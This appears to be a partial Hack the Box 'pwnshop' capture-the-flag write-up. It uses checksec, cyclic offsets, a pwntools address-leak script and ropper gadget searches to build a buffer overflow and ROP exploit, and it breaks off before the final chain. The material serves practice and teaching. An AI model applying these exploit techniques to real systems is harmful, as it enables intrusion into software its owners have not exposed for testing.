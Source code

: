 Hack the Box - pwnshop



file pwnshop    
pwnshop: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e354418962cffebad74fa44061f8c58d92c0e706, for GNU/Linux 3.2.0, stripped

$ checksec --file pwnshop     
[*] '/home/kali/CTF/HTB/pwnshop/pwnshop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled


pwndbg> cyclic -l jaaaaaaa
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72

Within the 'buy function', we see a buffer which we can overflow, providing us with 8 bytes of space to write another address to jump to.  The buffer is 72 bytes, but the 'read' function allows us to read in 80 bytes.

Within the 'sell function', we see that a variable is set to an address in the .bss space, which we can then use to figure out the offset to the piebase and thus know the base address of the program.

*** Leaking that base address:
# # Start program
io = start()

io.sendlineafter('> ', '2')
io.sendlineafter('What do you wish to sell?', 'COCHINO')
io.sendlineafter('How much do you want for it?', 'A' * 7 )
io.recvuntil('A\n')

leaked_addr = unpack(io.recv()[:6].ljust(8, b"\x00"))
info("leaked_addr: %#x", leaked_addr)
print(io.recv())
*****

This address we've leaked is = to the piebase + the offset of the variable ( &DAT_001040c0)

Now we need to figure out how to pivot around the space we have to chain ROP gadgets together

ropper -f pwnshop --console   
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
(pwnshop/ELF/x86_64)> help

(pwnshop/ELF/x86_64)> stack_pivot
0x0000000000001072: ret 0x2f;

ropper -f pwnshop --search "sub"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: sub

[INFO] File: pwnshop

0x0000000000001219: sub rsp, 0x28; ret; 

This ROP gadget (sub rsp, 0x28; ret;) will allow us to back up 28 bytes from wherever we place this gadget.
So if we use this gadget in they 'buy' function (the buffer in which has 72 bytes), this rop gadget will provide us with room to chain 28 bytes worth of ROP gadgets before we overflow the buffer.

Look inside the libc on our system to find the offset for puts:
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep puts  
   230: 0000000000077820   405 FUNC    WEAK   DEFAULT   16 puts@@GLIBC_2.2.5

   


